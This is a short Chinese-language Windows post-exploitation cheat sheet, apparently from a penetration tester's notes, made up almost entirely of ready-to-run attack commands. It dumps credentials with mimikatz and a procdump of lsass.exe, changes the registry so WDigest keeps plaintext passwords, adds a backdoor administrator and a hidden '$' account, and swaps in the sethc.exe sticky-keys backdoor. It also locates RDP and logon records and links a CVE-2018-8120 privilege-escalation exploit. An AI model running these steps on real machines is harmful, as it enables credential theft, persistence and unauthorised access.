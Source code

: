 # Windows渗透备忘录

### mimikatz

```
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt


```
### procdump64.exe导出lsass.dmp

```
先用procdump64.exe导出lsass.dmp
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
命令执行完成之后，会有提示下载路径。

然后把 lsass.dmp 下载到本地(实战中可以从菜刀下载或者网站访问下载等等)

使用本地的mimikatz.exe读取lsass.dmp。
```
修改注册表保存明文
```
但是我们可以通过修改注册表来让Wdigest Auth保存明文口令：

reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
###  添加用户

```
net user cmc Nqpqsnm123 /add

net localgroup administrators cmc /add

net user cmc$ Nqpqsnm123 /add
```

### 查看rdp端口

```
tasklist /svc |  findstr "TermService"

netstat -ano

REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber
```

```
 3389记录获取：wevtutil.exe qe security "/q:*[System [(EventID=4624)]]"/f:text /rd:true /c:100 > c:\sys.txt     100是条数
```

### Shift后门

替换system32下的sethc.exe为cmd.exe

关闭远程桌面的

![image-20191107102719394.png](https://i.loli.net/2019/11/07/UY6mtA1eZOWRHxf.png)

使用Kali rdesktop 

## 创建注册表隐藏用户

 [https://blog.csdn.net/abcd51685168/article/details/41854981]( https://blog.csdn.net/abcd51685168/article/details/41854981 ) 

### 提权工具

#### 2018-8120

 [https://github.com/unamer/CVE-2018-8120]( https://github.com/unamer/CVE-2018-8120 ) 

